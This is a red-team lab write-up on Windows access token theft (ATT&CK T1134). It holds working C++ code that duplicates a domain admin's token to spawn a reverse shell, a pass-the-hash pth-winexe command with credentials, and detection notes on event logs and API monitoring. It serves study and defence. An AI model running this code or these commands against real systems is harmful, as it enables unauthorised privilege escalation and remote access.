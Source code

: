 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is creating a new process with a "stolen" token. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved, then duplicated and then used for creating a new process making the process run in the context of stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonted token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do is test a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine via:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which created a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected is 3 \(a network logon\):

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to 4780 \(it has the access token we want to steal\):

![](../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host \(we stole tokens from\) because it exhibited some anomalous behaviour, in this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these manipulations on endpoints. Additionally, Windows event logs of IDs `4672` and `4674` may be helpful - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../.gitbook/assets/token-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1134\",\"type\":\"link\",\"title\":\"Access Token Manipulation - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/\",\"type\":\"link\",\"title\":\"PowerShell and Token Impersonation\",\"description\":\"This post will discuss bringing incognito-like functionality to PowerShell in the form of a new PowerShell script \(Invoke-TokenManipulation\), with some important differences. I’ll split this post u…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://clymb3r.files.wordpress.com/2013/11/screen-shot-2013-11-03-at-10-07-42-pm.png?w=300\",\"width\":300,\"height\":187,\"aspectRatio\":0.6233333333333333}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetTokenInformation function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw\",\"type\":\"link\",\"title\":\"CreateProcessWithTokenW function\",\"description\":\"Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"DuplicateTokenEx function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

